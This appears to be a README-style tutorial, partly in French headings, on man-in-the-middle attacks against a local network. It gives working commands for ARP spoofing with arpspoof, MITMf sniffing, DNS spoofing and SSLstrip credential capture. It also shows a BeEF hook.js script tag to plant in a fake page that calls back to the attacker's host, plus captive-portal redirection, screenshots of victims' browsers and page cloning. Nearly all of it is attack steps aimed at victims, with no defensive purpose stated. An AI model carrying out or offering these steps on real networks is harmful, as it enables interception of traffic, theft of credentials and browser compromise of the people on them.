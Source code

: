 # Man in the middle attack

## Tables des matière
 - [ARP protocol](#ARP-protocol)
 - [Manual ARP spoofing](#Manual-ARP-spoofing)
 - [HTTP trafic sniffing](#HTTP-trafic-sniffing)
 - [DNS spoofing](#DNS-spoofing)
 - [HTTPS credentials sniffing](#HTTPS-credentials-sniffing)
 - [Hooking browsers with BEEF](#Hooking-browsers-with-BEEF)
 - [Some stuff you can do with mitmf](#Some-stuff-you-can-do-with-mitmf)
 - [Cloning any webpage](#Cloning-any-webpage)
 - [Ettercap](#Ettercap)

### ARP protocol
	
Discover MAC adresses of an IP adress.

Show the CAM (MAC adress table) : `arp -a`

The CAM is update when you ping a IP in your LAN.
	
**Scapy** : a python program able to forge or decode packets of a wide number of protocols, send them on the wire, capture them, store or read them using pcap files, match requests and replies, and much more. 

### Manual ARP spoofing

Open tilix in order to have multiple terminals.

You must be able to forward packets between the victim and the router `echo 1 > /proc/sys/net/ipv4/ip_forward`

Let the router thinks that you have de MAC adress of the victim. `arpspoof -i <interface> -t <router_ip> <victim_ip>`

Let the victim thinks that you have de MAC adress of the of the router. `arpspoof -i <interface> -t <victim_ip> <router_ip>`

You can launch driftnet in order to see what pictures the victim is looking at.

### HTTP trafic sniffing

Use **MITMf** : `./mitmf.py --spoof --arp --gateway <gateway_ip> --targets <targets_ip>`

You are able to see which http web site the targets are visiting.

### DNS spoofing

DNS configuration is in `MITMf/confif/mitmf.conf` file.

Enter a domain name HTTP domain on which you want to perform the attack (category DNS ipv4 queries)

Use the parameter `--dns` in addition when you launched mitmf.py

When the victim go on the http website, he is redirected on the server that you specify in `mitmf.conf`
	
### HTTPS credentials sniffing 

Go to `mitmf.conf` and do your configuration on SSLstrip+ category

Use the parameter `--hsts` in addition when you launched mitmf.py

### Hooking browsers with BEEF

Start the beef-xss program `beef-xss`

Go to `http://127.0.0.1:3000/ui/panel` -> authenticate yourself with user/password

Create a fake html file in your own http server. 

Add `<script src="http://<your_ip_address>:3000/hook.js"></script>` between the two <head> and </head> tags  

When someone goes to the page, he is executing the script and you are able to see the target machine ip on the graphical beef application. If your click on the IP adress, you can perform lot's of attack against him if his browser is outdated.

In order to have all the devices connected to your LAN you can type : `./mitmf.py -i <interface> --spoof --arp --gateway <gateway_ip> --captive --portalurl http://<your_server_ip_adress>`

If you don't specify a particular target, when one of the LAN device request a page on Internet, he will be redirected to your server, he will ran the script and you can see it in your  beef application.

### Some stuff you can do with mitmf

You can specify the argument `--screen --interval <num_sec>` to screenshot the web browser every 20 seconds for example. Each screen go to the log/ folder.

You can specify the argument `--upsidedownternet` to rotate every picture of the victim current http page.

Key looger, shell sock...

### Cloning any webpage

Right click --> Save Page As 

Move the files (and folders) in `/var/www/html`, rename the main .html by index.html in apache2

### Ettercap

Program useful for mitm attack.
	 
